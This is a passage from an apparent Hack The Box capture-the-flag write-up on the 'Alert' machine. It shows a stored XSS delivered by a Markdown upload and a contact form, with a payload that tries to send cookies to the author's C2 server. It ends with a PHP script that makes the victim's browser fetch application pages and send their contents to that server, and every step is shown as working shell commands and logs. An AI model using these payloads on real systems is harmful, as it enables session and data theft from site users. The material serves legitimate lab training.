 Our probe will be a single XSS line `.md` file, which will fetch `exfil.php` from our C2, we will upload it and send it's URL using `contact.php`. If Markdown render URL will be opened we should see entry in our `exfil.log`
```
┌──(magicrc㉿perun)-[~/attack/HTB Alert]
└─$ XSS="<script src='http://$(ip addr show tun0 | grep "inet " | awk '{print $2}' | cut -d'/' -f1)/exfil.php'></script>" && \
URL=$(curl -X POST http://alert.htb/visualizer.php -s -F "file=@-;filename=xss.md" <<< $XSS | grep Share | grep -oP 'href="\K[^"]+') && \
curl -X POST http://alert.htb/contact.php -d "email=john.doe@server.com&message=$URL" && \
sleep 1 && \
tail -n 1 /var/www/html/exfil.log

[2025-03-22 06:35:46] IP: [10.129.231.188] | User-Agent: [Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/122.0.6261.111 Safari/537.36] | Data: [No data]
```

As we can see, immediately after sending message with contact form, we got connection from user reading that message. Now this immediate response is due to (most probably) some kind of automated script which simply opens our URL, `HeadlessChrome` user agent in out log could prove this. This is done for sake of HTB challenge 'playability', in real life scenario this would of course require more time. Anyway, we let's proceed along this path and see if we could steal some cookies.

```
┌──(magicrc㉿perun)-[~/attack/HTB Alert]
└─$ XSS="<script src='http://$(ip addr show tun0 | grep "inet " | awk '{print $2}' | cut -d'/' -f1)/exfil.php?data='+document.cookie></script>" && \
URL=$(curl -X POST http://alert.htb/visualizer.php -s -F "file=@-;filename=xss.md" <<< $XSS | grep Share | grep -oP 'href="\K[^"]+') && \
curl -X POST http://alert.htb/contact.php -d "email=john.doe@server.com&message=$URL" && \
sleep 1 && \
tail -n 1 /var/www/html/exfil.log

[2025-03-22 06:38:17] IP: [10.129.231.188] | User-Agent: [Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/122.0.6261.111 Safari/537.36] | Data: []
```

We can see in logs that `$_GET['data']` was set but it was empty, meaning there are no cookies to be stolen or they are marked as `HttpOnly`. What we could try next is to chain XSS with CSRF, this would be GET-based CSRF as there not much of known POST endpoints (other than Markdown upload). We will use this chain to browse web application being 'impersonated' as contact message reader. As injected JS is getting complicated we will externalize into dedicated script and host in on C2. We will use PHP script so we could easily pass path to browse as parameter.
```
┌──(magicrc㉿perun)-[~/attack/HTB Alert]
└─$ cat <<EOF> /var/www/html/browse.php
<?php
header("Content-Type: application/javascript");
\$path = isset(\$_GET['path']) ? \$_GET['path'] : "/";
echo <<<JS
fetch("http://alert.htb\$path")
  .then(response => response.text())
  .then(data => fetch("http://$(ip addr show tun0 | grep "inet " | awk '{print $2}' | cut -d'/' -f1)/exfil.php?data=" + encodeURIComponent(data)));
JS;
?>
EOF
```
